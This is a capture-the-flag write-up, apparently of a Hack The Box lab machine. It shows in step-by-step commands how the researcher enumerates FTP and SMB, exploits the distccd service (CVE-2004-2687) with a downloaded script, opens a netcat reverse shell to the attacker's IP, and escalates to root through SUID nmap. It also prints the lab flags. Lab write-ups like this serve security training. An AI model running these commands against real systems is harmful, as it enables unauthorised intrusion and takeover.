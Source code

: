 The researcher started out with a scan of the host (10.10.10.3) using rustscan^1^
Command: rustscan -a 10.10.10.3

|Status|IP|Port|
| -----|--|----------- |
| Open | 10.10.10.3 | 21 |
| Open | 10.10.10.3 | 22 |
| Open | 10.10.10.3 | 139 |
| Open | 10.10.10.3 | 445 |
| Open | 10.10.10.3 | 3632 |

The researcher then started with testing from the lowest port. 

PORT 21:
Check for access 
Command: ftp 10.10.10.3
Used anonymous : anonymous for (user : passwd)
The researcher was able to gain access but was met with `229 Entering Extended Passive Mode (|||39377|).`
Since I was not able to get any files I moved on to the next port. 

Port 22:
Since I did not have any creds as of yet I skipped this port. 

Port 139/445:
The researcher started by running smbmap to check if any shares had read/write access.
Command: smbmap -u "" -p "" -P 445 -H 10.10.10.3 && smbmap -u "guest" -p "" -P 445 -H 10.10.10.3
The researcher found that the /tmp share had read/write permissions. 
Using SMBClient the researcher was able to access the share. 
Command: smbclient //10.10.10.3/tmp -U "%"
Once in the researcher ran the following commands to get all the folders and files in the share. 
Command: RECURSE ON
Command: PROMPT OFF
Command: mget *

After reviewing the files the researcher did not find anything of interest. 

Port 3632:
After a quick google search for the port the research found some resources at hacktricks^2^
I attempted to use the nmap scan that was found on the page but I was met with an error, so back to google. 
After another quick search I was pointed to a gitrepo with a python script.^3^

USER FLAG:
Using wget I downloaded the file to my local dictory. 
Command: wget https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/261b638bb05d02b67b6ad67fa9cf3c74a73de6c6/distccd_rce_CVE-2004-2687.py 

I was able to test the script by using the whoami command
Command: python2 distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c 'whoami' 
The response returned the user `daemon`

Once I knew the script work the researcher tried using netcat to get a shell. 
On a new konsole tab I started a nc listener.
Command: nc -nlvp 21 (since I know port 21 is open and valid)
Back to my python script I ran. 
Command: python2 distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c 'nc 10.10.16.7 21 -e /bin/bash' 
I was able to get a shell. 

Once in I used a python command to spawn a TTY shell
Command: python -c 'import pty; pty.spawn("/bin/bash")'

From here I searched for the user flag user.txt.
It was found in `daemon@lame:/home/makis`
Flag 36b506059c48b300acee972398784a2e

ROOT FLAG:
From here the researcher uploaded linpeas from their directory to the /tmp folder using SMB.
while logged into SMB/tmp Command: put linpeas.sh

From the shell I ran linpeas
Command: bash linpeas.sh

Combing through the results linpeas did highlight a possible SUID priv esc. 
`-rwsr-xr-x 1 root root 763K Apr  8  2008 /usr/bin/nmap` 
Doing a quick google search I was able to find a blog using nmap for priv esc.^4^

Following this blog I was able to open a nmap interactive shell within my shell.
Command: nmap --interactive 
Command: !whoami
Command: !sh
I was now root on this box. 
`id = uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)`
I then looked for the root flag and it was found in /root
Flag: 40546746352aad1a3957715faedd42fb


REF
1. https://github.com/RustScan/RustScan
2. https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc
3. https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
4. https://www.adamcouch.co.uk/linux-privilege-escalation-setuid-nmap/


